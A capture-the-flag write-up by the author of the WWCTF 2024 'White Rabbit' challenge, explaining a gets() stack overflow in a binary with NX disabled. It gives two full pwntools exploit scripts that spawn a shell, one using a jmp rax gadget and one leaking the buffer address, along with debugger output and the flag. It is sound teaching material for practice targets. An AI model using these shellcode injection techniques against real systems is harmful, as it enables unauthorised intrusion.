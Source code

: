 White Rabbit is a shellcode challenge I created for WWCTF 2024. I will walk you through the intended solution and share an very clever approach discovered by my teammate @Nosimue.


## Overview

We are given a binary (white_rabbit) and a remote netcat endpoint. The first step is to analyze the binary's protections useing `checksec`

```shell
[d@d-20tk001gus challs]$ checksec --file=white_rabbit
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   PIE enabled     No RPATH   No RUNPATH   31 Symbols	  No	0		2		white_rabbit
```

1. NX Disabled: Allows execution of injected shellcode.
2. PIE Enabled: The binary is loaded at a random address in memory.
3. No Canary: The binary does not use stack canaries, which are a protection against buffer overflow attacks.
4. ASLR Enabled: Stack and binary addresses are randomized.

Running the program locally:

```shell

  (\_/)
  ( •_•)
  / > 0x60f1f6156180

follow the white rabbit...
```

The program prints an address. Disassembling the binary in Ghidra reveals that the printed address is the address of the main function. Here's a look at main:

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

And the follow function:

```c
void follow(void)

{
  char local_78 [112];
  
  gets(local_78);
  return;
}

```
The vulnerability is in follow(), which uses gets() to read user input without bounds, making a buffer overflow possible. Our goal is to inject shellcode into the buffer and execute it. However, since the leaked address is not a stack address, we don't know where to jump to. We need to find a different way to execute our shellcode,

## Analyzing Input

Let's take a look at what happens to our input after gets() is called in follow() Attaching a debugger and setting a breakpoint after gets() and sending 'AAAAAAA' as input we see:

```shell
$rax   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbx   : 0x00007fffffffe2f8  →  0x00007fffffffe6c1  →  "/home/d/Downloads/WWCTF24/challs/white_rabbit"
$rcx   : 0x00007ffff7f828e0  →  0x00000000fbad208b
$rdx   : 0x0
$rsp   : 0x00007fffffffe150  →  "AAAAAAAA"
$rbp   : 0x00007fffffffe1c0  →  0x00007fffffffe1d0  →  0x00007fffffffe270  →  0x00007fffffffe2d0  →  0x0000000000000000
$rsi   : 0x00007ffff7f82963  →  0xf84720000000000a ("\n"?)
$rdi   : 0x00007ffff7f84720  →  0x0000000000000000
$rip   : 0x000055555555517d  →  <follow+0014> nop
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000555555554000  →   jg 0x555555554047
$r15   : 0x0000555555557dd8  →  0x0000555555555110  →   endbr64
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
```

The input buffer is pointed to by RAX after gets(). This makes sense as RAX is usually used to hold the return value of a functions. This means if we can find a jmp rax or call rax gadget in the binary, we can redirect execution to our shellcode in the buffer.

## Finding Gadgets with Ropper

Using ropper, we can search for a gadget to execute our shellcode:

```shell
[d@d-20tk001gus challs]$ ropper --file=white_rabbit --search "jmp rax"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp rax

[INFO] File: white_rabbit
0x00000000000010bf: jmp rax;
0x00000000000010bf: jmp rax; nop dword ptr [rax]; ret;
0x0000000000001100: jmp rax; nop word ptr [rax + rax]; ret;
```

The jmp rax gadget at 0x10bf allows us to jump directly to the address stored in RAX — exactly what we need.

## Crafting the exploit:

1. Calculate Base Address: Since PIE is enabled, the binary is loaded at a randomized base address. We use the leaked address of main to compute the base address:
`elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main`
2. Calculate Overflow Offset: The distance between the start of the buffer and RIP is 120 bytes.
3. Craft our shellcode: We could write our own, but pwncools shellcraft is very convinient :) 
4. Finally we build our payload: First our shellcode, then padding to instruction pointer, and then our jmp rax gadget.

Here is our final solve script:

```python
elf = context.binary = ELF('../white_rabbit',)
p = remote("whiterabbit.chal.wwctf.com", 1337)

jmp_rax = next(elf.search(asm('jmp rax')))

p.recvuntil(">");
elf.address  = int(p.recvuntil("\n").strip(), 16) - elf.sym.main

jmp_rax += elf.address

payload = asm(shellcraft.sh())
payload = payload.ljust(120, b'A')
payload += p64(jmp_rax)

p.sendline(payload)
p.interactive()
```

`wwf{jmp_d0wn_th3_r4bb1t_h0le_0caba44088}`



## Alternate Solution: Leaking Buffer Address 

During internal testing of this challenge, my teammate @Nosiume came up with a very clever solve that bypasses the need for a jmp rax gadget entirely by leaking the address of the buffer. Here's how it works:

After gets() in the follow() function, the address of the buffer is stored in RAX. By finding a code path that prints the contents of RAX, we can leak the buffer address to bypass ASLR. This instuction within main moves the contents of rax to rsi.

` 0x00000000000011d1 <+45>:	mov    rsi,rax`

At this point:
   - rax holds the address of our input buffer.
   - rsi (set by mov rsi, rax) will be passed to printf() as the second argument during a subsequent call.

If we redirect execution to this instruction, the buffer address will be printed during the next printf() call. Afterward, the program continues to the follow() function, where we can use the leaked address for a direct return to our shellcode.

Here is his final solve script.



```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./white_rabbit')
context.terminal = ['alacritty', '-e']

gs = """
b *follow+26
continue
"""
io = gdb.debug(elf.path, gdbscript=gs) if args.GDB else process()

def exploit():
    context.log_level = 'info'

    io.recvuntil(b'> ')
    elf.address = int(io.recvline(), 16) - elf.sym.main

    info("elf base : " + hex(elf.address))
    info("target : " + hex(elf.address + 0x11d1))

    offset = 120
    payload = b'A'*offset + pack(elf.address + 0x11d1)

    io.sendlineafter(b'...\n', payload)
    io.recvuntil(b'> ')

    shellcode_addr = int(io.recvline(), 16)
    payload = flat({
        0: [ asm(shellcraft.amd64.linux.sh()) ],
        offset: [ shellcode_addr ]
    })

    io.sendlineafter(b'...\n', payload)
    io.interactive()

if __name__ == "__main__":
    exploit()
```

If you came up with a unique solve or have feedback on the challenge, I'd love to hear from you.
